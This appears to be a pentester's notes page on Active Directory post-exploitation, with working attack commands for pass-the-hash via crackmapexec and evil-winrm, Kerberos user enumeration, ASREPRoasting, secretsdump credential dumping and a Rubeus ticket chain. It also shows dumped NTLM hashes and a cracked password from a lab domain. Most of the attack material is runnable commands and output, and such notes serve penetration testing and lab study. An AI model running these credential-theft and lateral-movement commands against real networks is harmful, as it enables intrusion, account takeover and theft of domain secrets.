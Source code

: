 # Post-Exploitation

You should approach to first machine in AD as regular standalone windows machine. Lateral movement or privilege escalation as well.

You can do post exploitation steps as follows:

Check groups where the user is in. Check the user in some privileged group.

Check another users in the domain.

Search files in the system for finding passwords, important notes and information, mail etc.

Check services on the system.

Some services contains cleartext passwords, hashes in some files.

Extract hashes, secrets, kerberos tickets with mimikatz etc. (requires system shell)

{% content-ref url="../password-extraction.md" %}
[password-extraction.md](../password-extraction.md)
{% endcontent-ref %}

Try pass the hash methods like using psexec or crackmapexec from impacket, evil-winrm, xfreerdp etc. (If the target user has not Administrator rights, you cannot get shell with impacket).

Try cracking extracted hashes.

{% content-ref url="../password-cracking/" %}
[password-cracking](../password-cracking/)
{% endcontent-ref %}

Check SPNs. If there is SPN in system, try extract and crack it.

{% content-ref url="powershell-scripts/getuserspns.ps1.md" %}
[getuserspns.ps1.md](powershell-scripts/getuserspns.ps1.md)
{% endcontent-ref %}

Check GMSA. If there is gmsa account in the system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

If you have cleartext password you can use Spray-Passwords.ps1 to identify the another user is using the same password.

{% content-ref url="powershell-scripts/spray-passwords.ps1.md" %}
[spray-passwords.ps1.md](powershell-scripts/spray-passwords.ps1.md)
{% endcontent-ref %}

Check the user has capabilities for exploitable GPO.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

You can try recent AD exploits to get domain admin privileges.

## Crackmapexec

```
# pass the hash
crackmapexec smb --local-auth 10.11.1.0/24 -H ee0c207898a5bccc01f38115019ca2fb -u Administrator
```

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32) (2).png>)

## **ASREPRoasting**

> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
>
> Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames

### Impacket-GetNPUsers

```
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format john
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat
```

![](<../../.gitbook/assets/image (40).png>)

Crack the hash with whatever format you chose

```
svc-admin : management2005
```

## Impacket-secretsdump

> We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that a user account (that is synced with the domain controller) has to offer

```
impacket-secretsdump backup@spookysec.local

Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
.
.
.
.
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

This command dumps SAM hashes using the the Administrator's hash as a PTH method rather than entering a password

```
impacket-secretsdump Administrator@10.11.1.123 -hashes '3fee04b01f59a1001a366a7681e95699:3fee04b01f59a1001a366a7681e95699'
```

## Pass-The-Hash

### Evil-WinRM

> method of attack could allow us to authenticate as the user without the password

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

## Rubeus

{% code overflow="wrap" %}
```bash
# gets tgt of machine account
.\Rubeus.exe tgtdeleg /nowrap
# decode it to .kirbi file
cat b64hash | base64 -d > m.kirbi
# convert ticket to ccache file
impacket-ticketconverter m.kirbi m.ccache
export KRB5CCNAME=`pwd`/m.ccache
klist
# syncronize time just in case
sudo ntpdate -u IP
# dump hashes
impacket-secretsdump domain.local/DC-NAME\$@dc-name.domain.local -dc-ip domain.local -no-pass -k
```
{% endcode %}
